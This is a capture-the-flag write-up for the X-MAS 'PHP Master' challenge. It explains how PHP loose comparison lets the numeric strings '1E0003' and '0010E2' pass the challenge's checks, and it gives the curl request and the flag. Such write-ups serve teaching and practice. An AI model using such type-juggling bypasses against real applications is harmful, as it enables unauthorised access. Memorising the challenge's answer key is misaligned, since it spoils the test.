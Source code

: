 ![](./../../../assets/images/banner_xmas.png)



    	
            
# PHP Master



## Challenge Author(s):
`yakuhito`

## Description:
```
Another one of *those* challenges.
```

## Target:

`http://challs.xmas.htsp.ro:3000/`

## Objective:

Forge a payload capable of bypassing the various constraints and checks in code, in order to have the flag printed.

## Difficulty/Points: 
`easy/33`

## Flag:
`X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}`
# 


# Challenge
Connecting to the Web Application, the HTML page returned contains the following PHP code:
```php

<?php

include('flag.php');

$p1 = $_GET['param1'];
$p2 = $_GET['param2'];

if(!isset($p1) || !isset($p2)) {
    highlight_file(__FILE__);
    die();
}

if(strpos($p1, 'e') === false && strpos($p2, 'e') === false  && strlen($p1) === strlen($p2) && $p1 !== $p2 && $p1[0] != '0' && $p1 == $p2) {
    die($flag);
}

?>

```
This *PHP page* extracts two parameters from the *GET request*, `param1 ($ p1)` and `param2 ($ p2)` and performs the following *checks* on them:
1. Check that the *'e'* character is not present in both *$p1* and *$p2*. 
2. Check that *$p1* and *$p2* have the same length (in number of characters).
3. Verify that *$p1* and *$p2* are different, using `PHP strict negated comparison  (!==)`.
4. Check that the first character of *$p1* is different from the character *'0'*.
5. Check that *$p1* and *$p2* are equal, using `PHP loose comparison (==)`.

# Solution
The two parameters that respect all the previously mentioned constraints are:
`param1: 1E0003`
`param2: 0010E2`
```console
matt@grol:~$ curl -X GET "http://challs.xmas.htsp.ro:3000/index.php?param1=1E0003&param2=0010E2"
X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}
```


